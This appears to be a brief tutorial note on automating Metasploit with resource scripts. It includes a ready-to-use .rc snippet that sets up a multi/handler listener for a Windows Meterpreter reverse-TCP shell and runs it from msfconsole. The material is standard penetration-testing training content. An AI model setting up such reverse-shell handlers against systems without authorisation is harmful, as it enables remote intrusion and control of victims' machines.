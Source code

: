 # Automating Metasploit with Resource scripts

Resource scripts allow you to automate commands that are frequently used  
These are similar to bash scripts  
They use .rc file extensions

View built in resource scripts - ```ls -la /usr/share/metasploit-framework/scripts/resource```  

Resource scipt for multi handler
1. create new rc file with the following info

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST (Host IP)
Set LPORT (Port)
Run
```
2. msfconsole -r (filename).rc

Run Resource script from MSFConsole -- using "Resource" command
